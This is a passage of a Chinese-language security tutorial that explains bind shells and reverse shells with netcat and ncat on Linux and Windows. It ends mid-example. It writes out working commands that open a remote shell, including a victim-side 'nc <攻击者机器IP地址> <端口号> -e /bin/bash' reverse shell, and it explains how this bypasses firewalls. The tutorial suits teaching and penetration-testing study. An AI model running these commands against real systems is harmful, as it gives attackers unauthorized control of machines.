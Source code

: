 其中，-l表示监听模式，-v表示详细输出，显示连接信息，-p指定监听的端口号，-e指定连接建立后执行的命令，这里是启动/bin/bash shell。

在 Windows 系统中，也可以使用nc，但需要先下载nc的 Windows 版本并配置环境变量。监听命令如下：

```
nc -lvp <端口号> -e cmd.exe 
```

#### 攻击者机器

在 Linux 系统中，连接到目标机器的指定端口：

```
nc <目标机器IP地址> <端口号>
```

在 Windows 系统中，使用下载并配置好的nc连接目标机器：

```
nc <目标机器IP地址> <端口号>
```

## 0x04 反向 Shell (Reverse Shell)

反弹 Shell 的原理与正向 Shell 相反。目标设备主动连接到攻击者的 IP 和端口，将 Shell 权限反弹到攻击者的设备上。

🌟 特点和作用：

- **目标设备主动发起出站连接**：绕过防火墙的入站限制。在许多网络环境中，防火墙通常会限制外部设备对内部设备的入站连接，但允许内部设备主动发起出站连接。攻击者利用这一特性，通过在目标设备上执行命令，使其主动连接到攻击者控制的 IP 和端口。

- **一旦连接成功**：攻击者通过该反向连接控制目标设备。与正向 Shell 类似，连接成功后，攻击者可以在目标设备上执行系统命令，实现对目标设备的控制。

场景举例：当目标机器位于防火墙后或使用 NAT 时，反向 shell 更合适，目标设备执行命令，连接攻击者 IP 和端口，将系统 Shell 权限反弹给攻击者。比如，攻击者利用目标主机存在的漏洞，如 Web 应用程序漏洞，在目标主机上执行命令，使其主动连接到攻击者控制的外部服务器，从而绕过目标主机的防火墙限制，实现对目标主机的控制。

### Windows 和 Linux 下的反向 Shell 命令示例

#### 攻击者机器

在 Linux 系统中，使用nc监听指定端口，等待连接：

```
nc -lvp <端口号>
```

在 Windows 系统中，使用ncat监听指定端口（假设已安装并配置好ncat）：

```
ncat -lvp <端口号>
```

#### 目标机器 (受害者)

在 Linux 系统中，连接到攻击者机器的指定端口：

```
nc <攻击者机器IP地址> <端口号> -e /bin/bash 
```

在 Windows 系统中，使用ncat连接到攻击者机器的指定端口：
